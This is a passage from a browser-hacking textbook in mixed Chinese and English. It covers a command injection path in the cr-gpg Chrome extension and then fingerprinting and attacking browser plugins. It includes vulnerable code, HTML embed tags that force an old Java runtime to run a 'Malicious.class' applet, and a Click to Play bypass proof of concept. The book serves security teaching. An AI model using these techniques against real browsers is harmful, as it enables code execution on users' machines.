`cr-gpg` 扩展调用 NPAPI 插件来执行消息的加密和解密工作。扩展将邮件内容和收件人信息传递给后端进行处理。NPAPI 接收这些信息，在 Windows 上使用 `gmailGPG.dll` 作为接口来指示文件系统上的 `gpg.exe` 二进制文件。当然，这会因操作系统而异。以下 C++ 代码是 `gmailGPG.dll` 用于包装 `gpg.exe` 可执行文件的 harness：

```
//Encrypts a message with the list of recipients provided
FB::variant gmailGPGAPI::encryptMessage(const FB::variant& recipients,
      const FB::variant& msg)
{
  string tempFileLocation = m_tempPath + "errorMessage.txt";
  string tempOutputLocation = m_tempPath + "outputMessage.txt";
  string gpgFileLocation = "\""+m_appPath +"gpg.exe\" ";
vector<string> peopleToSendTo = 
recipients.convert_cast<vector<string> >();
  string cmd = "c:\\windows\\system32\\cmd.exe /c ";
  cmd.append(gpgFileLocation);
  cmd.append("-e --armor");
  cmd.append(" --trust-model=always");
  for (unsigned int i = 0; i < peopleToSendTo.size(); i++) {
    cmd.append(" -r");
cmd.append(peopleToSendTo.at(i));
  }
  cmd.append(" --output ");
  cmd.append(tempOutputLocation);
  cmd.append(" 2>");
  cmd.append(tempFileLocation);
sendMessageToCommand(cmd,msg.convert_cast<string>());
  
  <snip>
} 
```

这段代码包含一个 `cmd` 注入漏洞。仔细观察，你会发现收件人列表未进行过滤，随后被追加到 `cmd` 字符串中。该 `cmd` 字符串随后由操作系统执行。生成的命令行如下：

```
gpg -e --armor --trust-model=always -r <recipient> --output out.txt 2>err.txt
```

现在，你需要一种方式来与 NPAPI 插件通信，以成功发起操作系统 `cmd` 注入攻击。你不会感到惊讶的是，内容脚本使用消息传递与后台页面通信。后台页面随后指示 NPAPI 插件执行什么操作。最后，响应通过以下顺序返回给内容脚本，但（显然）是反向的。

后台页面 50 通过指定 MIME 类型 `application/x-gmailgpg` 来实例化嵌入式插件对象。这提供了通过脚本语言访问的途径。以下代码展示了后台页面使用的过程：

```
<object id="plugin0" type="application/x-gmailgpg"></object><br />
<script>
  var alerted = false;
  function plugin0()
  {
    return document.getElementById('plugin0');
  }
  var testSettings = function(){
  
  };
  
  chrome.extension.onRequest.addListener(
  function(request, sender, sendResponse) {
    var gpgPath = localStorage['gpgPath'];
    var tempPath = localStorage['tempPath'];
    if(!gpgPath){
    gpgPath = '/opt/local/bin/'; 
    };
    if(!tempPath){
      tempPath = '/tmp/'; 
    };
    plugin0().appPath = gpgPath;
    plugin0().tempPath = tempPath;
    if (request.messageType == 'encrypt'){
      var mailList = request.encrypt.maillist;
      if( localStorage["useAutoInclude"] && 
          localStorage["useAutoInclude"] != 'false'){
        mailList.push(localStorage["personaladdress"]);
      }
      var mailMessage = request.encrypt.message;
      sendResponse({message: plugin0().encrypt(mailList,mailMessage),
          domid:request.encrypt.domel});
  }else if(request.messageType == 'sign'){
```

这段代码还为内容脚本与后台页面传递消息添加了监听器。你会对 `encrypt` 消息类型感兴趣，因为它是你用来将注入传递给 NPAPI 插件的途径。

`mailList` 变量是从传递的消息中未过滤地传递给插件的。现在，你拥有了从加密内容一直到 NPAPI 插件调用操作系统的完整攻击路径。

然而，还有一个小问题需要解决。文中多次使用了两个不同的加密函数名称：`encrypt` 和 `encryptMessage`。在 `gmailGPGAPI.cpp` 文件中有一个映射，告诉插件应向 JavaScript 共享哪些函数：

```
gmailGPGAPI::gmailGPGAPI(const gmailGPGPtr& plugin, 
  const FB::BrowserHostPtr& host) : m_plugin(plugin), m_host(host)
{
  registerMethod("encrypt", make_method(this, &gmailGPGAPI::encryptMessage));
  registerMethod("decrypt", make_method(this, &gmailGPGAPI::decryptMessage));
}
```

让我们探索将这些问题串联起来发起 `cmd` 注入攻击的过程。以下代码是从公开发布的漏洞利用中改编的：51


# 摘要

将功能从浏览器核心中移除并移入扩展程序几乎肯定减少了臃肿。然而，这也将重要功能的开发和维护转移到了安全意识较弱的开发者手中。这与赋予他们强大的权限相结合，导致了许多不安全的扩展程序。有人可能会认为，臃肿的减少是以牺牲浏览器的**总体安全性**为代价的。

你可以从多种角度观察扩展程序如何增强浏览体验。例如，可以将扩展程序视为在每个页面的源上下文中运行的虚拟 Web 应用程序。也可以将它们视为安装在操作系统上的应用程序。无论哪种方式，都要记住它们在特权上下文中运行，并拥有特权 API。

本章深入探讨了扩展程序的解剖结构以及如何检测目标扩展程序是否已安装在被钩针的浏览器中。你已经考察了扩展程序的庞大攻击面及其漏洞类别。你现在了解了**跨上下文脚本注入**的工作原理以及一些最可靠的特权提升方法。

本章探讨了利用 Chrome 和 Firefox 扩展程序的高级技术。下一章将深入探讨攻击浏览器插件的方法。插件是增强浏览体验的另一种流行方式，同样拥有广阔的攻击面。

# 问题

Level1 **1.** 比较 Chrome 和 Firefox 扩展程序的安全模型。 **2.** 什么是有效的扩展程序指纹识别方法？ **3.** `chrome://` 区域是什么，为什么它是它重要的？ **4.** 内容安全策略 (CSP) 对浏览器扩展程序有何影响？ **5.** 同源策略 (SOP) 对浏览器扩展程序有何影响？ **6.** 如何在 Firefox 扩展程序中执行操作系统命令？ **7.** 如何在 Chrome 扩展程序中执行操作系统命令？ **8.** 内容脚本拥有哪些权限？ **9.** 背景页面拥有哪些权限？ **10.** Firefox 扩展程序拥有哪些权限？

/Level1

对于问题的答案，请参阅书籍网站 [`browserhacker.com/answers`](https://browserhacker.com/answers) 或维基网站： [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook)。

**注释**

1\. Google. (2013). Google Analytics Opt-out Add-on. Retrieved November 30, 2013 from [`chrome.google.com/webstore/detail/google-analytics-opt-out/fllaojicojecljbmefodhfapmkghcbnh`](https://chrome.google.com/webstore/detail/google-analytics-opt-out/fllaojicojecljbmefodhfapmkghcbnh)

2\. Microsoft. (2013). How do browser add-ons affect my computer. Retrieved November 30, 2013 from [`windows.microsoft.com/en-AU/windows-vista/How-do-browser-add-ons-affect-my-computer`](http://windows.microsoft.com/en-AU/windows-vista/How-do-browser-add-ons-affect-my-computer)

3\. Wikipedia. (2013). Mozilla Add-ons. Retrieved November 30, 2013 from [`en.wikipedia.org/wiki/Mozilla_Add-ons`](http://en.wikipedia.org/wiki/Mozilla_Add-ons)

4\. Roberto Suggi Liverani, Nick Freeman. (2009). Abusing Firefox Extensions. Retrieved November 30, 2013 from [`www.security-assessment.com/files/documents/presentations/liverani_freeman_abusing_firefox_extensions_defcon17.pdf`](http://www.security-assessment.com/files/documents/presentations/liverani_freeman_abusing_firefox_extensions_defcon17.pdf)

5\. Mozilla. (2013). nsILoginManager. Retrieved November 30, 2013 from [`developer.mozilla.org/en-US/docs/XPCOM_Interface_Reference/nsILoginManager#searchLogins\(\)`](https://developer.mozilla.org/en-US/docs/XPCOM_Interface_Reference/nsILoginManager#searchLogins\(\))

6\. Nick Freeman. (2009). ScribeFire (Mozilla Firefox Extension)––Code Injection Vulnerability. Retrieved November 30, 2013 from [`www.security-assessment.com/files/advisories/ScribeFire_Firefox_Extension_Privileged_Code_Injection.pdf`](http://www.security-assessment.com/files/advisories/ScribeFire_Firefox_Extension_Privileged_Code_Injection.pdf)

7\. Roberto Suggi Liverani and Nick Freeman. (2010). Exploiting Cross Context Scripting Vulnerabilities in Firefox. Retrieved November 30, 2013 [from http://www.security-assessment.com/files/documents/whitepapers/Exploiting_Cross_Context_Scripting_vulnerabilities_in_Firefox.pdf](http://from%20http://www.security-assessment.com/files/documents/whitepapers/Exploiting_Cross_Context_Scripting_vulnerabilities_in_Firefox.pdf)

8\. Mozilla. (2013). nsIOutputStream. Retrieved November 30, 2013 from [`developer.mozilla.org/en-US/docs/XPCOM_Interface_Reference/nsIOutputStream`](https://developer.mozilla.org/en-US/docs/XPCOM_Interface_Reference/nsIOutputStream)

9\. Mozilla. (2013). Displaying web content in an extension without security issues. Retrieved November 30, 2013 from [`developer.mozilla.org/en-US/docs/Displaying_web_content_in_an_extension_without_security_issues`](https://developer.mozilla.org/en-US/docs/Displaying_web_content_in_an_extension_without_security_issues)

10\. Adam Barth, Adrienne Porter Felt, Prateek Saxena, and Aaron Boodman. (2012). Protecting Browsers from Extension Vulnerabilities. Retrieved November 30, 2013 from [`www.cs.berkeley.edu/~afelt/secureextensions.pdf`](http://www.cs.berkeley.edu/~afelt/secureextensions.pdf)

11\. Google. (2013). Google Chrome Webstore. Retrieved November 30, 2013 from [`chrome.google.com/webstore/category/extensions`](https://chrome.google.com/webstore/category/extensions)


# References

12. Nicholas Carlini, Adrienne Porter Felt, and David Wagner. (2012). An Evaluation of the Google Chrome Extension Security Architecture. Retrieved November 30, 2013 from `http://www.eecs.berkeley.edu/~afelt/extensionvulnerabilities.pdf`

13. W3C. (2012). Content Security Policy 1.0. Retrieved November 30, 2013 from `http://www.w3.org/TR/CSP/`

14. Google. (2013). Content scripts. Retrieved November 30, 2013 from `https://developer.chrome.com/extensions/content_scripts.html`

15. Google. (2013). NPAPI. Retrieved November 30, 2013 from `http://developer.chrome.com/extensions/npapi.html`

16. Wikipedia. (2013). NPAPI. Retrieved November 30, 2013 from `https://en.wikipedia.org/wiki/NPAPI`

17. Google. (2013). NPAPI warning. Retrieved November 30, 2013 from `http://developer.chrome.com/extensions/npapi.html#warning`

18. Google. (2013). Permission warning. Retrieved November 30, 2013 from `https://developer.chrome.com/extensions/permission_warnings.html`

19. Google. (2013). Messaging security considerations. Retrieved November 30, 2013 from `http://developer.chrome.com/extensions/messaging.html#security-considerations`

20. Google. (2013). Content security policy. Retrieved November 30, 2013 from `http://developer.chrome.com/extensions/contentSecurityPolicy.html`

21. Microsoft. (2013). Browser Extensions. Retrieved November 30, 2013 from `http://msdn.microsoft.com/en-us/library/aa753587(v=vs.85).aspx`

22. Microsoft. (2013). Browser Extensions Overviews and Tutorials. Retrieved November 30, 2013 from `http://msdn.microsoft.com/en-us/library/aa753616(v=vs.85).aspx`

23. Microsoft. (2013). About Browser Extensions. Retrieved November 30, 2013 from `http://msdn.microsoft.com/en-us/library/aa753620(v=vs.85).aspx`

24. Giovanni Cattani. (2013). Detecting Chrome Extensions in 2013. Retrieved November 30, 2013 from `http://gcattani.co.vu/2013/03/detecting-chrome-extensions-in-2013/`

25. Krzysztof Kotowicz. (2012). Chrome addons enumeration. Retrieved November 30, 2013 from `http://koto.github.io/blog-kotowicz-net-examples/chrome-addons/enumerate.html`

26. Krzysztof Kotowicz. (2013). XssChef. Retrieved November 30, 2013 from `https://github.com/koto/xsschef/blob/master/tools/scrap.php`

27. Giovanni Cattani. (2013). The evolution of Chrome extensions. Retrieved November 30, 2013 from `http://blog.beefproject.com/2013/04/the-evolution-of-chrome-extensions.html`

28. Joseph Bonneau. (2011). Measuring password re-use empirically. Retrieved November 30, 2013 from `http://www.lightbluetouchpaper.org/2011/02/09/measuring-password-re-use-empirically/`

29. Paul Smith. (2012). LinkedIn breach has wider impact on users’ security. Retrieved November 30, 2013 from `http://www.brw.com.au/p/technology/linkedin_breach_has_wider_impact_OX43PuN2b7KS56Z0pAX0bM`

30. Dave Drager. (2011). Five Best Browser Security Extensions. Retrieved November 30, 2013 from `http://lifehacker.com/5770947/five-best-browser-security-extensions`

31. Wikipedia. (2013). Cross-zone scripting. Retrieved November 30, 2013 from `http://en.wikipedia.org/wiki/Cross-zone_scripting`

32. Petko Petkov. (2006). Cross-content scripting with Sage. Retrieved November 30, 2013 from `http://www.gnucitizen.org/blog/cross-context-scripting-with-sage/`

33. Stackoverflow. (2013). Load remote webpage in background page: Chrome Extension. Retrieved November 30, 2013 from `http://stackoverflow.com/questions/11845118/load-remote-webpage-in-background-page-chrome-extension`

34. Amazon. (2013). Amazon 1Button App for Chrome. Retrieved November 30, 2013 from `https://chrome.google.com/webstore/detail/amazon-1button-app-for-ch/pbjikboenpfhbbejgkoklgkhjpfogcam`

35. Aldo Cortesi. (2013). MITMproxy. Retrieved November 30, 2013 from `http://mitmproxy.org/`

36. Ezanker. (2013). ezLinkPreview. Retrieved November 30, 2013 from `http://www.simpledifference.com/ezanker/`

37. Google. (2013). Chrome tabs: execute script. Retrieved November 30, 2013 from `http://developer.chrome.com/extensions/tabs.html#method-executeScript`

38. Michael Gundlach. (2013). AdBlock. Retrieved November 30, 2013 from `https://chrome.google.com/webstore/detail/adblock/gighmmpiobklfepjocnamgkkbiglidom`

39. Wladimir Palant. (2011). Add frame busting code to HTML pages. Retrieved November 30, 2013 from `https://github.com/adblockplus/adblockpluschrome/commit/4b50a67f8d5a24b8e1298320536c30f2e4e38448`

40. Krzysztof Kotowicz. (2012). Chrome addons hacking: Bye Bye AdBlock filters! Retrieved November 30, 2013 from `http://blog.kotowicz.net/2012/03/chrome-addons-hacking-bye-bye-adblock.html`

41. Adblockforchrome. (2012). Adblockforchrome: subscribe.js. Retrieved November 30, 2013 from `https://code.google.com/p/adblockforchrome/source/browse/trunk/pages/subscribe.js?spec=svn5004&r=3525`

42. Adblockforchrome. (2012). Adblockforchrome: functions.js. Retrieved November 30, 2013 from `https://code.google.com/p/adblockforchrome/source/browse/trunk/functions.js?r=3525`

43. Scribefire. (2013). Scribefire. Retrieved November 30, 2013 from `http://www.scribefire.com/`

44. Eldar Marcussen. (2013). FirePHP firefox plugin remote code execution. Retrieved November 30, 2013 from `http://www.justanotherhacker.com/advisories/JAHx132.txt`

45. Krzysztof Kotowicz. (2012). Owning a system through a Chrome extension––cr-gpg 0.7.4 vulns. Retrieved November 30, 2013 from `http://blog.kotowicz.net/2012/09/owning-system-through-chrome-extension.html`

46. Thinkst. (2013). Cr-gpg. Retrieved November 30, 2013 from `http:/st.com/tools/cr-gpg/`


47. Jameel Haffejee. (2011). Cr-gpg: content_script.js. Retrieved November 30, 2013 from [`https://github.com/RC1140/cr-gpg/blob/v0.7.4/chromeExtension/content_script.js#L29`](https://github.com/RC1140/cr-gpg/blob/v0.7.4/chromeExtension/content_script.js#L29)

48. Jameel Haffejee. (2011). Cr-gpg: manifest.json. Retrieved November 30, 2013 from [`https://github.com/RC1140/cr-gpg/blob/v0.7.4/chromeExtension/manifest.json#L19`](https://github.com/RC1140/cr-gpg/blob/v0.7.4/chromeExtension/manifest.json#L19)

49. Jameel Haffejee. (2011). Cr-gpg: gmailGPGAPI.cpp. Retrieved November 30, 2013 from [`https://github.com/RC1140/cr-gpg/blob/v0.7.4/gmailGPG/windows/gmailGPGAPI.cpp#L129`](https://github.com/RC1140/cr-gpg/blob/v0.7.4/gmailGPG/windows/gmailGPGAPI.cpp#L129)

50. Jameel Haffejee. (2011). Cr-gpg: background.html. Retrieved November 30, 2013 from [`https://github.com/RC1140/cr-gpg/blob/v0.7.4/chromeExtension/background.html#L5`](https://github.com/RC1140/cr-gpg/blob/v0.7.4/chromeExtension/background.html#L5)

51. Krzysztof Kotowicz. (2012). Cr-gpg exploit. Retrieved November 30, 2013 from [`https://github.com/koto/blog-kotowicz-net-examples/blob/master/chrome-addons/cr-gpg/exploit.js`](https://github.com/koto/blog-kotowicz-net-examples/blob/master/chrome-addons/cr-gpg/exploit.js)

# *Chapter 8*

# *Attacking Plugins*

Although a web browser’s primary focus is on rendering web pages, there has always been a push to support other types of rich content like movies, or interactive content such as 3-D models. These capabilities may even require integration with other applications or programming languages, such as Microsoft Excel or Java, in an effort to provide rich interactive content and features. These additional functionalities aren’t necessarily something that browser vendors want to support natively, so they often provide a method for application developers to access these features through a plugin interface.

The plugin interface binds external code or applications into the browser so that it can leverage these third-party plugin components to perform additional tasks. As with any application, code weaknesses could allow for information disclosure, code execution, or other unexpected behaviors.

In this chapter, you will explore how to identify plugins such as Acrobat Reader, Java, and Flash. Once you have identified the plugins, you can use your knowledge of their weaknesses to potentially bypass browser safeguards. Finally, you will examine attack techniques to help leverage these plugins to extend access beyond the browser and into the operating system.

# Understanding Plugin Anatomy

In the following sections, you will discover what defines a plugin, how they differ from extensions, and how it’s exposed to the user. By digging into these concepts, the foundations for understanding how to fingerprint and attack browser plugins will be established. You will then be able to better understand the security impact of plugins.

A plugin is a code bridge between external code libraries or applications and a browser. The installation of the plugin adds new code to the browser that links the external application into the browser so that the browser can access the code from the external application. Providing a plugin interface allows externally supported file formats to be supported inside the browser, greatly increasing the capabilities of the browser itself.

Two separate aspects make up a plugin: the browser API and the script API. The browser API controls the interaction between the browser and the external code for rendering new content types. This would allow the browser to leverage Adobe Reader’s code to display the PDF inside the browser. These plugins typically use a standard API such as ActiveX in Windows or NPAPI, the cross-platform Netscape API.

The script API allows the object that is represented inside the browser to be manipulated through web APIs, often executed through JavaScript. The two APIs work together to allow web developers to display content, manipulate it, and present it to users in a format that is both functional and aesthetically pleasing.

Chrome also allowed plugins to be kept in a separate process space so that if a plugin crashed, it wouldn’t crash the entire browser. This limited the ability of a faulty plugin to interfere with the normal operation of the browser. However, though these plugins run in a separate process, they can still be exploited, and in some cases may provide access to the browser or the underlying operating system.

Types of plugins you will frequently see while browser hacking include Flash, Acrobat, Java, QuickTime, Silverlight, RealPlayer and VLC plugins. These plugins support PDFs, applets, movies, and advanced graphics for browsers and are installed along with their parent programs.

By going into the Add-ons Manager in Firefox and choosing the Plugins tab as in `Figure 8-1`, you can see what plugins are installed in Firefox. Chrome, Internet Explorer, and other browsers have similar functionality, although differently named depending on the browser.

## How Plugins Differ from Extensions

Plugins and extensions are similar in that they extend the functionality of the browser. The core difference between the two is that extensions add functionality using existing browser interfaces through JavaScript and other APIs, whereas plugins leverage external code.

 start figure 

**Figure 8-1:** Firefox Plugins control panel showing installed plugins


 end figure 

Extensions are typically also functional across a wide range of pages, because they have extended some functionality of the browser as a whole. Plugins on the other hand, are designed to support a file format. They are invoked only when the browser encounters one of those files. This occurs when the file is embedded into a web page via the <object> or <embed> tags or when the browser receives a supported content type. The Content-Type references a MIME type, which indicates how the browser should handle the file.

 start figure 

**Figure 8-2:** Accessing a PDF with curl shows a content type of application/pdf


 end figure 

## How Plugins Differ from Standard Programs

Plugins differ from standard programs in that they extend the functionality of the browser alone. Plugins typically call the same code as an external application. Because of this, when there is a vulnerability in an application, there is frequently also a vulnerability in the browser plugin. This means that Adobe Acrobat vulnerabilities in a library may be callable both from the external application and within the browser.

Plugins may have fewer features and reduced functionality than the full application. Therefore, there may be cases where downloading a file and viewing it outside of a browser may be preferable.

Typically when applications are updated, if plugins are associated with the external application, the plugins are updated as well. This is what causes you to have to restart your browser while updates are being installed. Because they share the same codebase, the plugin would become unstable if the underlying code changed while it was loaded into the browser.


-   [前面提到的，插件在以下两种情况下会被调用：由 Web 服务器传递的 Content-Type 与 MIME 类型匹配，或通过 `<embed>` 或 `<object>` 标签实现。下面是一段示例代码，用于将 Flash 文件嵌入页面：]
```
<`object` data="flashdemo.swf" type="application/x-shockwave-flash">   
<`param` name="bhh" value="true"> 
</`object`>
```
[This sample code tells the browser to embed an object into the page. When the file is loaded, the content type is determined via MIME to be a Flash object. This tells the browser that it should load the object with the Flash plugin. Finally, it passes the bhh parameter into the Flash plugin.]

### Click to Play

The Click to Play feature is an attempt to help users stay safe by asking for permission before running plugins. Mozilla, for instance, has done this to prevent websites from calling older versions of plugins when multiple versions are installed by applications with different requirements.

By using Click to Play, attacks that involve calling older versions of Flash, Acrobat Reader, or Java become more difficult as the user has to actively click the area on the screen where the plugin will appear to launch the code. Apart from limiting the execution of old plugin versions, it also helps reduce the likelihood of plugins executing without the user being aware. Google Chrome includes a similar feature, but it is not enabled by default.

start feature 

* * *

**Specifying a Particular Java Runtime in Firefox** If you believe that a hooked browser running Firefox has access to an older Java Runtime Environment (JRE), you can modify the type attribute within the `<embed>` tag and cause the applet to run using the older JRE. For instance, take the following example: 

```
<`embed` code="Malicious.class"
width="1" height="1"
type="application/x-java-applet;version=1.6.0"
pluginspage=”http”://java.sun.com/j2se/1.6.0/download.html />”
```

In this instance, the Malicious.class applet will try to run with the JRE that supports the MIME type `application/x-java-applet;version=1.6.0`. If there’s a JRE with a version equal to or greater than the one specified, then it will execute the applet. Otherwise, it will direct the user to the URL specified in the pluginspage attribute. On the other hand, if you consider this example: 

```
<`embed` code="Malicious.class"
width="1" height="1"
type="application/x-java-applet;jpi-version=1.6.0_18"
pluginspage="http://java.sun.com/j2se/1.6.0/download.html" />
```

The Malicious.class applet will try to run with JRE version 1.6.0_18. If this is not possible, the user will be directed to the URL specified in the pluginspage attribute. These methods may assist you if you want to target a specific Java version that may be affected by a particular exploit or Click to Play vulnerability, some of which will be discussed later on in the Attacking Java section. 

* * *

end feature 

Click to Play has been coupled with a block-list to automatically enable this feature for plugins that Mozilla knows will cause a security issue. However, Click to Play has also suffered from security weaknesses and bypasses. Fear not, you will learn more about these weaknesses later in the chapter.

When Click to Play is activated, the browser allows access to the plugin only after the user has been warned and has clicked Accept. Figure 8-3 shows three different types of plugins: a Java plugin that the user will be prompted to activate, plugins like QuickTime that will automatically play, and plugins like the old Acrobat plugin that will never activate unless the user re-enables them.

start figure 

**Figure 8-3:** The plugins options for Firefox showing three different plugin states


end figure 

## How Plugins are Blocked

Before exploring how plugins are blocked, first you need to understand why plugins are blocked. Sure, security issues are the most obvious reason. But, plugins are blocked for other reasons; some plugins violate corporate policy due to streaming media, privacy concerns, or have potential impacts to staff productivity.

Plugins can be blocked either by a configuration applied to corporately managed computers, or by vendors themselves. Microsoft, for instance, has pushed out kill bits for certain vulnerable ActiveX plugins in the past as part of security patches to help prevent exploitation. Kill bits are registry entries that mark COM or ActiveX objects as non-loadable in the browser. Mozilla blocked older Java versions from users to help prevent exploitation as well. Many corporate environments also deploy their own ActiveX kill bits to disable plugins that could cause issues from third parties. An example is Adobe products that may not be easily patchable within the corporate environment.

Apple joined the party of companies blocking plugins in early 2013 when it blocked Java 7 to protect users from a vulnerable version. To do this, Apple pushed a configuration file change to its antimalware software, Xprotect, to block the Java plugin. To view what’s blocked on your Mac, you can view the plist XML file at [/System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/Xprotect.plist](http:///System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/Xprotect.plist).

For the same vulnerability, Active X kill bits were released to help prevent the vulnerable software from running in Windows. By adding the correct kill bit values at HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Internet Explorer\\ActiveX Compatibility, you can force the plugin to not load in Internet Explorer for specific versions, without having to block the plugin as a whole.

Firefox lacks some of these enterprise capabilities; however, the built-in blacklist successfully blocks known malicious plugins. The Java plugin was also added to the Firefox blacklist, which is auto-updated. Although this may cause issues for enterprise users, it can always be re-enabled.

# Fingerprinting Plugins

Similar to attacking browser extensions, attacking plugins is easier if you identify what you are dealing with first. Fingerprinting plugins is much like browser fingerprinting in that your task is to send queries to the browser to determine what’s really running. This section looks at different ways to detect and fingerprint browser plugins.

## Detecting Plugins

Detecting plugins is fairly easy to do, both manually and automatically. Some plugins require more work than others, and the effort required ranges from submitting simple DOM queries to trying to load a specific file type. By using a combination of techniques, you should be able to fingerprint most of the popular browser plugins and not only tell whether or not they are active, but also determine the version.

In this section you first examine how to manually query the browser for plugins. Then, in the following sections, you see how to leverage frameworks and plugins to automatically detect plugin versions for attack purposes.

Firefox and Chrome make this task fairly easy by surfacing the list of plugins that are installed in the navigator.plugins DOM object. You can build a quick web page to query this for yourself and output the elements in a table using the information from the Mozilla reference:

```
<HTML>
<BODY>
<SCRIPT>
var pluginLen = navigator.plugins.length;
document.write("<TABLE><TR><TH COLSPAN=4>");
document.write(
  "Plugins Found: " + pluginLen.toString() + " </TH></TR>" +
  "<TR><TH>Name</TH><TH>Filename</TH>" + 
  "<TH>Description</TH><TH>Version</TH></TR>\n"
);

for(var i = 0; i < pluginLen; i++) {
  document.write(
    "<TR><TD>"+
    navigator.plugins[i].name +
    "</TD><TD>" +
    navigator.plugins[i].filename +
    "</TD><TD>" +
    navigator.plugins[i].description +
    "</TD><TD>" +
    navigator.plugins[i].version +
    "</TD></TR>\n"
  );
}
document.write("</TABLE>");
</SCRIPT>
</BODY>
</HTML>
```


当你将此保存为 HTML 文件并加载到浏览器中时，它会输出一个类似于图 8-4 的表格，列出每个插件及其版本。该表格包括可直接调用的活动插件，以及“点击即播放”的插件，因此某些插件可能需要额外的干预。

在图 8-4 中，你可以看到运行前面代码片段的结果，该片段是枚举 `navigator.plugins` DOM 对象。

``` 
start figure 
```

**Figure 8-4:** 枚举 `navigator.plugins` DOM 对象


``` 
end figure 
```

通过 `navigator.mimeTypes` DOM 对象在 Firefox 和 Chrome 中可以进行其他检测。通过该对象返回的数组进行查询，可以验证它返回的内容要么是 MimeType 对象，要么是 undefined。通过使用前面章节“通过 DOM 指纹识别”的“!!”技巧（如第 6 章所述），很容易基于 MIME 类型判断 Flash 是否已安装：

```
>>> `!!navigator.mimeTypes["application/x-shockwave-flash"]` 
true
```

对于 Internet Explorer，大多数插件都作为 ActiveX 控件执行。检测系统上是否已安装插件的最简便方法是尝试实例化 ActiveX 对象并判断是否返回了有效对象。要检测 IE 中是否启用了 Flash，可以执行以下 JavaScript：

```
flash_versions = 11;
flash_installed = false;
objname = "ShockwaveFlash.ShockwaveFlash.";
if (window.ActiveXObject) {
  for (x = 2; x <= flash_versions; x++) {
    try {
      Flash = eval("new ActiveXObject('" + objname + x + "');");
      if (Flash) {
        flash_installed = true; 
      }
    } catch (e) { }
  }
}
```

代码执行完毕后，flash_installed 为 true 表示 Flash 已安装，为 false 表示未安装。你可能注意到这里检查了 10 种 Flash 版本（从 2 到 11）。每种 Flash 的 ActiveX 对象名称不同，因此在遍历名称时，当创建 ActiveX 对象时，就知道了对应的版本已安装。相比 Firefox 和 Chrome，这种方式更繁琐，但由于无法通过 DOM 直接访问插件，这是在 IE 中识别插件的最有效方法。

## 自动插件检测

现在你已经掌握了使用 JavaScript 手动检测插件的方法，可以转向大规模自动插件检测。了解如何构建插件检查将有助于扩展自动化框架。许多 referenced 框架中，Eric Gerds 编写的 PluginDetect7 框架是常被引用的。通过使用包装 JavaScript 类以及子模块，你可以构建轻量级 JavaScript 查询模块，用于检查多种不同类型的插件。

这类框架能够快速识别所有已安装的插件，这些插件可能值得攻击者目标。在很多情况下，用户甚至不知道他们的插件已被检测。然而，从 Internet Explorer 8 开始的某些浏览器会通过弹窗提示用户。因此，在生产环境中使用 ActiveX 检查前，最好先进行测试。

虽然 PluginDetect 是构建插件检查的强大工具，如果你仅想获取自己的插件列表并检查它们是否为最新版本，Mozilla 网站 8 提供了插件检查站点。该站点不仅遍历你的插件，还检查其状态。图 8-5 展示了 Mozilla 插件检查站点的输出结果，显示部分模块需要更新，而部分模块站点未识别。

``` 
start figure 
```

**Figure 8-5:** Mozilla 插件状态页面，显示需要更新的插件


``` 
end figure 
```

插件状态页面能够检测到许多常见插件，但如图 8-5 所示，仍可能存在站点未识别的插件。站点会提供如何研究这些插件版本的信息。

## 在 BeEF 中检测插件

如前所述，上述方法可帮助你检查自身插件或构建框架，但有时直接使用已有工具更便捷。BeEF 内置了插件检测功能，无需额外扩展，除非你想检测 BeEF 未知的新插件。

BeEF 在浏览器被钩连后，会自动执行一系列插件检查。图 8-6 展示了 BeEF 默认在钩连浏览器时执行的插件信息，包括 Flash、VLC 等检查在初始化时运行。

``` 
start figure 
```

**Figure 8-6:** 正在钩连的浏览器插件列表


``` 
end figure 
```

针对这些自动任务，BeEF 会在不可见用户的情况下尝试进行额外插件指纹识别。对于其他手动 BeEF 插件，某些可能会触发用户通知。图 8-7 展示了可用于检测其他插件的命令。

``` 
start figure 
```

**Figure 8-7:** BeEF 额外插件检测命令


``` 
end figure 
```

四种不同的灯光颜色表示 BeEF 插件的警报状态。绿色插件通常不会向用户显示正在被检测的事实。灰色插件要么无法工作，要么影响极小。橙色插件通常存在边界条件，可能会向用户发出警报；例如，插件存在时可能不触发警报，但不存在时用户可能会注意到异常（反之亦然）。红色插件通常会向用户警示你的活动。基于这些交通灯信号，你可以选择模块并针对浏览器执行，进一步确定可能的可利用漏洞模块。

## 攻击插件

检测插件有助于判断目标的潜在脆弱性。利用脆弱目标是真正的乐趣所在。插件是黑客的常见攻击目标，因此作为安全实践者，你应深入了解这些攻击方式。这将使你能够向企业安全团队或同事展示弱点，激励其补丁或调整安全策略。

本节介绍多种攻击插件的方式。你将了解如何绕过某些插件的“点击即播放”设置，并学习几种常被攻击的插件。你将发现如何利用这些脆弱插件劫持浏览器或在远程机器上执行代码。

## 绕过 Click to Play

尽管现代浏览器中的“点击即播放”设置是提醒用户潜在可疑活动的有效方式，但小型或隐藏的插件实例可能无需用户干预即可运行。

插件行为及默认配置的复杂性使得浏览器开发者面临挑战，同时也给防御安全角色带来困难：如何知道哪些插件无需 Click to Play 干预？合理的原因存在，使得插件在页面显示时对用户不可见。例如，为使用性能研究而跟踪浏览器导航的插件可能由页面设计者自行隐藏。如果用户需要对隐形插件进行 Click to Play，用户应点击哪里？

### Firefox 示例


-   [过去曾出现过 Click to Play 的错误，这些错误允许插件自动显示。本·墨雷菲（Ben Murphy）发现了一个有趣的绕过方法，并且该方法一直对 Firefox 起效，直到 2013 年 3 月。[Proof of Concept 很简单但有效：]

```
<html>
  <head>
    <style type='text/css
css'>
       #overlay {
         background-color: black;
         position: absolute;
         top: 0px;
         left: 0px;
         width: 550px;
         height: 450px;
         color: white;
         text-align: center;
         padding-top: 100px;
         pointer-events: none;
       }
    </style>
    <body>
      <div id="overlay">Click here</div>
      <applet code="Foo.class" width="500" height="500"/>
  </body>
</html>
```

-   [通过指定 `pointer-events: none`，可以阻止对黑色 #overlaydiv 的任何鼠标事件触发。随后可以诱导用户点击 “Click here” 信息，从而执行 Java Applet（如图 8-8 所示）。]

**Figure 8-8:** Click to Play 绕过执行未签名的 Java Applet


end figure 

-   [通过动态修改 overlay div 的 CSS 定义，并加入 `opacity: 0.4`，可以看到 overlay 后面的内容（如图 8-9 所示）。利用此技巧以及一定的社交工程，用户实际上是在点击 Click to Play 对话框。]

**Figure 8-9:** 添加透明度以显示背后的内容


end figure 

